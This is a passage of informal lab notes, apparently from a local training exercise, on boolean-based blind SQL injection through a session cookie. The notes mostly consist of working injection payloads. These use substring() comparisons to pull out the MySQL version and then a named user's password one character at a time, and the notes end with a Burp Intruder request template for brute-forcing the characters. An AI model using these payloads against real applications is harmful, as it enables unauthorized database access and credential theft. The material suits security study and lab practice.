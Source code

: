 And again we will get a pass so we kind of understand of substring is doing and how it is working but we dont want to compare the string that we provide like "alex" is we are providing but actually  want to compare this to something that we grab from the database
Select the version of the database select a first character of a database version with a length of 1 
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 1) = '7'#
```
 We get a failed change the 7 to 8
And we get a success
We know MySQL is version 8 
usually MySQL version are like 7.0.1 or 8.1.1
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 2) = '8.'#
```
 Again success
 ```php
 Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 3) = '8.0'#
```

It is 8.0 try 8.0.0
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 5) = '8.0.0'#
```
Zero Matches 
```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()), 1, 5) = '8.0.3'#
```
We got a Match 

We have enumerated or extracted the version of the database 
Now extract Jessamy's password as a challenge 
Manually but it will take long time

```php
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username = "jessamy"), 1, 1) = 'a'#
```
 change a to b,c, d,e etc
  Send the request to the intruder 
  and marked that first character
```python
GET /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username = "jessamy"), 1, 1) = '§y§'#
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
```
Make the payload of all the keyboard character A to Z 
